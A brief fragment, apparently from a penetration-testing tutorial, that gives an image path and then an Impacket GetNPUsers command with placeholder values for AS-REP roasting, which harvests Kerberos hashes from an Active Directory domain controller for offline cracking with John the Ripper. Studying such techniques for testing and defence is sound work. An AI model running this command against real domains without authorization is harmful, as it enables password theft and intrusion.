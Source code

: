 We can run the below command for this attack 

Impacket-GetNPUsers "DomainName"/ -usersfile "users.txt" -dc-ip "IP address" - request -format john 

